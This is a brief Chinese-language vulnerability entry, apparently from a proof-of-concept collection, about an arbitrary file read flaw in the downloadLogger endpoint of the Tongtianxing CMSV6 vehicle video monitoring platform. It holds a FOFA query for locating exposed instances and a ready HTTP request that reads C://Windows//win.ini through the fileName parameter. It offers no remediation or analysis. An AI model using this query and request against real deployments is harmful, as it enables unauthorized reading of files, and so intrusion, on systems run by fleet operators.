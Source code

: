 ## 通天星CMSV6车载视频监控平台downloadLogger接口任意文件读取漏洞

## fofa
```
body="./open/webApi.html"||body="/808gps/"
```


## poc
```
GET /808gps/logger/downloadLogger.action?fileName=C://Windows//win.ini HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

![image](../../images/dd596d83-95b3-48de-abbb-74e7b3f47280.png)
